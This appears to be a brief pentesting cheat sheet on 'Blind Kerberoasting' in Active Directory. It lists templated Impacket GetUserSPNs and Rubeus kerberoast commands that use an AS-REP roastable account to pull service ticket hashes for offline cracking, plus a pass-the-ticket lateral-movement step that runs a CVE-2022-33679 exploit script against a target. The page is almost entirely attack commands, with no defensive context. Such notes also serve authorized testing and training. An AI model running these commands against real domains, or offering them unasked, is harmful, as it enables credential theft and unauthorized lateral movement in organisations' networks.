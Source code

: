 # Blind Kerberoasting

## Find TGS Hash

 - Impacket-GetUserSPNs -no-preauth "ASREP_USER" -usersfile "USER_LIST.TXT" -dc-host "DC_IP" "DOMAIN"/ (Blind Kerberoasting)

 - Rubeus.exe kerberoast /domain:DOMAIN /dc:DC_IP /nopreauth: ASREP_USER /spns:USERS.TXT (Blind Kerberoasting)

## Lateral Movement (PTT)

 - python3 CVE-2022-33679.py DOMAIN/USER TARGET
